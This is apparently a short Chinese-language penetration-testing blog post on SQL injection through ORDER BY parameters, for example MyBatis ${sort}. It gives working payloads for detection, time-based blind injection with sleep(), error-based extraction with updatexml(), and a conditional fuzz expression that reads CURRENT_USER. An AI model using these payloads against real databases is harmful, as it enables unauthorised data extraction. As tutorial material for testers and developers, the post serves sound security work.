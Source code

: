 ```yaml
---
layout: post
title: Order by 注入总结
categories: [Pen-test]
Description: Order by 注入总结
keywords: SQL
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


Description: Order by 注入总结。

## 判断order by注入

当你看到一个查询结果有排序小箭头时，要额外注意，这可能一个SORT(排序)键值，抓包后可能是这样的。

![](/images/orderbysql/1.png)

后端SQL语句就差不多类似

```shell
select * from table where id =1 order by zzf desc;
```

这种地方在java-mybatis环境中容易引发注入问题，原因很简单，在mybatis中order by ${sort}传的是列名不能用#{}，因此需要额外用白名单处理。有的开发没处理就有注入了。

如何判断这里有order by注入呢？很简单，原理跟最基础的联合注入利用order by爆破字段数量是一样的。
order by (1)  不报错
order by (10000000) 报错

这样就基本能判断出来这里有order by注入了。
当然也可以直接order by sleep(1)。

## order by注入利用

### 时间盲注

能用sleep(1)就能构造最简单的基于时间延迟的布尔盲注。

select * from test_table order by if(1=1,sleep(1),1);

![](/images/orderbysql/swappy-20241204-164412.png)

> 但它有个很大的缺点，就是有几条数据就重复几次sleep(1)。

### 报错注入

经典的updatexml()

```shell
select * from test_table  order by updatexml(1,concat(0x7e,(select user()),0x7e),1);
```

![](/images/orderbysql/swappy-20241204-164602.png)

## FUZZ

```shell
(case when substr(CURRENT_USER,1,1)='r' then rand(exp(99999999)) else 1 end)
```

![](/images/orderbysql/swappy-20241204-164812.png)
